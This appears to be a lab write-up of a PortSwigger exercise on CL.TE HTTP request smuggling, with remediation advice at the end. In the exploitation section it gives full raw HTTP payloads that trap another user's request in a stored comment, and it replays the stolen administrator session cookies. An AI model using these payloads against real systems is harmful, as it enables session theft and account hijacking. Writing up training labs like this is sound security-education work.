








## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to capture other users' requests
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

---

## 1. Fundamental Concepts

HTTP request smuggling represents a catastrophic failure of message boundary synchronization across multi-tiered web architectures. In enterprise deployments, an edge reverse proxy terminates client TLS connections and multiplexes multiple independent user requests over persistent, reused TCP connections to internal backend application servers.

### 1.1. Reflection Gadgets vs. Persistent Storage Sinks
* **The Limitation of Reflection:** In reflection-based smuggling scenarios (such as search query reflection), the smuggled request echoes data only within the HTTP response directed back to the specific TCP connection. When targeting other users, however, the victim's response is delivered exclusively to the victim's client browser, keeping the exfiltrated data invisible to the attacker.
* **The Storage Sink Paradigm:** To intercept sensitive third-party traffic, the attacker must target a persistent storage sink—such as a comment submission endpoint, forum thread, or profile field. Storing the smuggled payload enables asynchronous, out-of-band data exfiltration.

### 1.2. State, CSRF Validation, and Header Dependencies
* **CSRF & Session Coupling:** Modern web applications enforce anti-CSRF protections on state-altering actions (e.g., `POST /post/comment`). The backend validates that the submitted CSRF token matches the active session identified by the `Cookie: session` header. Therefore, the smuggled storage request must carry the attacker's valid session cookie and CSRF token to pass backend authorization.
* **Smuggled Header Minimization:** While the outer request must supply a `Host` header to comply with RFC 7230 at the front-end, internal smuggled requests processed on backend sockets do not require an explicit `Host` header unless virtual-host routing is strictly enforced. Eliminating unnecessary headers in the smuggled request prevents header collisions when the victim's request line and headers are appended.

> [!IMPORTANT]
> **Exfiltration Primitive:** By smuggling an incomplete `POST /post/comment` request with an inflated `Content-Length` and positioning the `comment=` parameter at the very end of the body, the backend server pauses mid-transaction. When an unsuspecting victim's browser transmits an authenticated request across the shared connection pool, the backend treats the victim's request line, headers, and secret session cookies as the continuation of the comment body, permanently storing the victim's credentials in the database.

---

## 2. Attack Model & Architecture

The attack model demonstrates how transport-layer desynchronization transforms a benign public commenting system into an automated credential harvesting mechanism.

```text
[Attacker]
    │
    │ 1. Transmits CL.TE Smuggling Payload
    │    Outer: POST / HTTP/1.1 (Content-Length: 277, Transfer-Encoding: chunked)
    │    Smuggled: POST /post/comment (Content-Length: 947, valid CSRF + Cookie)
    │    Body ends with: '...&comment=' (Pending remaining bytes)
    ▼
[Front-end Proxy] (Prioritizes Content-Length: 277)
    │ Forwards full byte stream over persistent TCP connection to Back-end
    ▼
[Back-end Server] (Prioritizes Transfer-Encoding: chunked)
    │ Reads chunk '0\r\n\r\n' -> Finishes Request 1 (Returns 200 OK to Attacker)
    │ Smuggled 'POST /post/comment' is parsed as next request
    │ Back-end reads parameters up to 'comment=' and WAITS for 947 bytes
    ▼
[Victim (Administrator) Browses Website]
    │ Victim's browser automatically sends authenticated request:
    │   GET / HTTP/1.1
    │   Host: vulnerable-website.net
    │   Cookie: victim-fingerprint=...; secret=...; session=i3oBneyKL...
    │   User-Agent: Mozilla/5.0 (Victim)...
    ▼
[Back-end Absorbs Victim's Request into 'comment=' Parameter]
    │ Reads victim request line and headers into comment body until 947 bytes reached
    │ Back-end stores comment under Post #9 and returns 302 Found
    ▼
[Attacker Browses to Post #9]
    │ Views public comments: Displays victim's raw request and Session Cookie
    │ Attacker hijacks Administrator account using stolen session tokens
```

### 2.1. Attack Data Flow & Lifecycle
1. **Step 1 - Desynchronization Verification:** Using differential response techniques, the application is confirmed vulnerable to CL.TE desynchronization.
2. **Step 2 - Storage Sink Profiling:** The attacker submits a test comment to `/post/comment`, capturing the application's required parameters (`csrf`, `postId`, `name`, `email`, `website`, `comment`) and the attacker's valid session cookie.
3. **Step 3 - Socket Buffer Priming:** An outer `POST /` request is crafted with `Transfer-Encoding: chunked`. After chunk `0`, the attacker appends a partial `POST /post/comment` request with `Content-Length: 947` and `comment=` positioned at the end of the payload.
4. **Step 4 - Transport-Layer Entrapment:** The front-end forwards the stream. The back-end finishes Request 1 at chunk `0`, then begins processing the partial comment request. Because `Content-Length` is 947, the back-end holds the socket open, waiting for subsequent bytes to satisfy the body length.
5. **Step 5 - Victim Request Capture:** An automated victim (administrator) issues a request on the multiplexed connection. The backend consumes the victim's request line, User-Agent, and Cookie header as the body of the pending comment parameter, saving it to the database.
6. **Step 6 - Account Hijacking:** The attacker refreshes the blog post, extracts the administrator's session cookie from the published comment, replaces their local cookie, and gains administrative access.

### 2.2. Byte-Level Payload Anatomy & Calculation
* **Parameter Ordering Constraint:** The `comment` parameter must appear last (e.g., `csrf=...&postId=9&name=...&email=...&comment=`). If placed earlier, the delimiter `&` in subsequent parameters or the victim's request would truncate parameter parsing.
* **Content-Length Tuning (947 bytes):** Set to 947 bytes. An undersized length (e.g., 300) captures only the request line and Host header, terminating before the Cookie header. An oversized length (e.g., 3000) causes socket timeouts because a typical browser request (~500-700 bytes) cannot satisfy the declared length.
* **Attacker Session & CSRF Ingestion:** Carried within the smuggled request body to authorize the comment submission, binding the storage action to the attacker's session while capturing the victim's data.

### 2.3. Root Causes
* **Framing Desynchronization:** Front-end and back-end servers implement divergent HTTP body length parsing logic under RFC 7230 Section 3.3.3.
* **Indiscriminate Connection Multiplexing:** The reverse proxy routes requests from distinct, untrusted client sessions across the same persistent backend TCP connection pool.
* **Absence of Session-to-Client Binding:** User session tokens lack cryptographic binding to client TLS fingerprints or device identifiers, allowing stolen tokens to be replayed freely.

---

## 3. Vulnerability Exploitation

The vulnerability was systematically verified and exploited through an empirical multi-stage process utilizing Burp Suite Repeater.

### 3.1. Baseline Connectivity & Protocol Downgrade
An initial baseline request to `'/'` was captured in Burp Suite Repeater. The target environment negotiated HTTP/2 by default, returning an `HTTP/2 200 OK` response with public blog posts.



To test for HTTP/1.1 message framing discrepancies, the protocol was downgraded to HTTP/1.1, and the **Update Content-Length** setting was unchecked in Burp Repeater.

### 3.2. Probing & Confirming CL.TE Desynchronization
A differential response probe was constructed with `Content-Length: 12` and `Transfer-Encoding: chunked`, appending a single `'G'` character after the terminating chunk:

```http
POST / HTTP/1.1\r\n
Host: 0a04001203741bda80ea0d7d00870074.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 12\r\n
Transfer-Encoding: chunked\r\n
\r\n
1\r\n
A\r\n
0\r\n
\r\n
G
```

The initial transmission completed normally with an `HTTP/1.1 200 OK` response, leaving `'G'` in the backend socket buffer:



Sending an immediate follow-up request returned an `HTTP/1.1 404 Not Found` response containing JSON `"Not Found"`. The smuggled `'G'` byte prepended to the incoming request line to form `GPOST /`, decisively confirming CL.TE desynchronization.



### 3.3. Profiling the Storage Sink (Comment Endpoint)
A legitimate comment was submitted to Post #9 to profile the required parameter structure:

```http
POST /post/comment HTTP/2\r\n
Host: 0a04001203741bda80ea0d7d00870074.web-security-academy.net\r\n
Cookie: session=fnesHyR1U3XAGHwXmRxpUB8WPiFRRB5L\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
csrf=CMj3jocMqo4lWOlt8usxHgYhFX2SUNuV&postId=9&comment=hacking&name=0xDTK&email=name%40gmail.com&website=http%3A%2F%2Fexample.com
```

The server responded with an `HTTP/2 302 Found` redirecting to `/post/comment/confirmation?postId=9`, confirming the submission and yielding the required CSRF token (`CMj3jocMqo4lWOlt8usxHgYhFX2SUNuV`) and session cookie (`fnesHyR1U3XAGHwXmRxpUB8WPiFRRB5L`).



### 3.4. Constructing & Priming the Request-Trapping Payload
The storage-sink smuggling payload was assembled. The smuggled request targeted `POST /post/comment` with an inflated `Content-Length: 947`, incorporating the attacker's CSRF token and session cookie, and ending with an open `'comment='` parameter:

```http
POST / HTTP/1.1\r\n
Host: 0a04001203741bda80ea0d7d00870074.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 277\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
POST /post/comment HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 947\r\n
Cookie: session=fnesHyR1U3XAGHwXmRxpUB8WPiFRRB5L\r\n
\r\n
csrf=CMj3jocMqo4lWOlt8usxHgYhFX2SUNuV&postId=9&name=0xDTK&email=name%40gmail.com&website=http%3A%2F%2Fexample.com&comment=
```

The request was transmitted to prime the back-end socket buffer, returning an `HTTP/1.1 200 OK` response for the outer request.



### 3.5. Exfiltrating Victim Credentials & Extracting Session Tokens
Navigating to Post #9 on the blog revealed the comments posted by the application. The backend had consumed the subsequent requests into the comment body:



The second comment captured an authenticated request from the simulated victim (`User-Agent: Mozilla/5.0 (Victim)`), exposing the administrator's credentials:

```http
cookie: victim-fingerprint=huI40FEOCYRtKd6d1AkSvjuNviWOoplZ; secret=BYwAlhIj3rrW2KRViKeM3qjMQL7ZW4wc; session=i3oBneyKLKurybAUK8R2vpQn3tOogeDX
```

### 3.6. Replaying Stolen Session & Lab Completion
The stolen cookies were injected into a baseline `GET / HTTP/2` request in Burp Repeater:

```http
GET / HTTP/2\r\n
Host: 0a04001203741bda80ea0d7d00870074.web-security-academy.net\r\n
Cookie: victim-fingerprint=huI40FEOCYRtKd6d1AkSvjuNviWOoplZ; secret=BYwAlhIj3rrW2KRViKeM3qjMQL7ZW4wc; session=i3oBneyKLKurybAUK8R2vpQn3tOogeDX
```

The server recognized the session as the administrator, rendering the privileged navigation header: `<a href="/my-account?id=administrator">My account</a>`.



The PortSwigger Web Security Academy confirmation banner verified successful completion of the lab:



---

## 4. Remediation & Prevention

Preventing cross-user request interception requires comprehensive hardening across reverse proxies, backend connection handlers, and session management architectures.

### 4.1. End-to-End HTTP/2 & HTTP/3 Architecture
* **Unified Binary Framing:** Deploy HTTP/2 or HTTP/3 consistently across the entire request pipeline—from clients through edge proxies to internal backend servers. Binary framing eliminates delimiter ambiguities by defining frame lengths at the transport layer.
* **Disable Protocol Downgrading:** Avoid protocol downgrading at reverse proxies. Converting inbound HTTP/2 frames into HTTP/1.1 cleartext streams when communicating with upstream servers creates message framing discrepancies that enable request smuggling.

### 4.2. Connection Pool Isolation & Reverse Proxy Normalization
* **Isolate Upstream Connection Pools:** Never reuse backend TCP connections across different client IP addresses or authentication boundaries. Terminate backend connections immediately upon completing individual client requests or isolate connection pools strictly per authenticated user.
* **Ambiguous Framing Rejection:** Configure reverse proxies (e.g., Nginx, HAProxy, Envoy) to reject any request containing both `Content-Length` and `Transfer-Encoding` headers with an immediate `HTTP 400 Bad Request`.

### 4.3. Application-Tier Defense-in-Depth
* **Cryptographic Session Binding:** Bind session cookies to client TLS connection properties, IP subnets, or cryptographic device fingerprints (e.g., DPoP - Demonstrating Proof-of-Possession). Even if a session token is leaked via smuggling, replaying it from an unauthorized host will be rejected.
* **Strict Body Parameter Validation:** Enforce maximum input lengths and strict schema validation on form fields. Reject unexpected control characters and newlines within form body parameters before persisting data.
